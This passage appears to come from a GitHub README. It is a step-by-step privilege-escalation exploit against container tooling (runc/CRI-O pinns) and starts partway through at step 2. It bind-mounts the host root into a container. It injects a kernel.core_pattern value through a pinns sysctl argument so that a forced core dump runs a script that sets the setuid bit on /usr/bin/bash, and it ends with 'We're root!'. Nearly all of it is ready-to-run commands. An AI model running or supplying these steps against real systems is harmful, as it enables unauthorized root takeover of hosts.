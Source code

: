 2. In the "mounts" section of config.json append the following entry:
```
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},
```
3. In the previously created /tmp/foo/ directory, run:
```
runc --root /tmp/foo run alpine
```
We're now inside a read-only container.

4. In another SSH session, create a bar.sh script , which sets the setuid bit of /usr/bin/bash.
```
echo -e '#!/bin/sh\nchmod +s /usr/bin/bash' > /tmp/foo/bar.sh && chmod +x /tmp/foo/bar.sh
```
5. Now use pinns to assign the kernel.core_pattern a value, so once the core dump occurs, it executes our malicious script.
```
pinns -d /var/run -f 844aa3c8-2c60-4245-a7df-9e26768ff303 -s 'kernel.shm_rmid_forced=1+kernel.core_pattern=|/tmp/foo/bar.sh #' --ipc --net --uts --cgroup
```
6. Trigger a core dump in the read-only container.
```
# ulimit -c unlimited
# tail -f /dev/null &
# ps
# bash -i
# kill -SIGSEGV $num
# ps
```
Now just check if the bin/bash binary has the suid bit.
![Screenshot_2023-02-12_18_11_58](https://user-images.githubusercontent.com/99975622/219512299-e087db0b-119e-4b7c-9a1a-0a60ee6abfe5.png)

And done!
We're root!
## My socials:
<br>@ twitter: https://twitter.com/M3tr1c_r00t
<br>@ instagram: https://instagram.com/m3tr1c_r00t/
